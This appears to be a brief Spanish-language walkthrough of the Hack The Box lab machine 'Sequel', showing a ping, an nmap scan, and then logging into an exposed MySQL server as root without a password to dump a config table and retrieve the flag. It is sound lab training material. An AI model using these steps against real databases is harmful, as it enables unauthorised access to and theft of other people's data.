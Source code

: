Maquina: Sequel

Autor:

Dificultad: Muy Facil

![Screenshot 2024-11-10 160302](https://github.com/user-attachments/assets/f70ff2e2-b305-4f65-831b-553a85a1a7c4)

Iniciamos la máquina y verificamos la conexión

ping 10.129.67.127 -c 1

![Screenshot 2024-11-10 161533](https://github.com/user-attachments/assets/6a7d2d97-bd41-4c5a-b99b-d421040bd168)

realizamos un escaneo de puertos y servicios

sudo nmap -sV -sC -v 10.129.67.127

el puerto 3306 perteneciendo al servicio MySQL está abierto

![Screenshot 2024-11-10 161952](https://github.com/user-attachments/assets/ed9a8594-4182-4cd8-84c1-47a7f84a428a)

mysql -h 10.129.67.127 -u root

show databases;

![Screenshot 2024-11-10 162235](https://github.com/user-attachments/assets/ff3698b7-5300-4c63-acad-fd934dd4d615)

use htb;

show tables;

![Screenshot 2024-11-10 162516](https://github.com/user-attachments/assets/d13278bd-931b-4f94-945d-000b8ab62c9a)

select * from config;

![Screenshot 2024-11-10 162352](https://github.com/user-attachments/assets/a629f03c-df4c-4d58-8e00-5c5de5a3ed39)

y conseguimos el flag
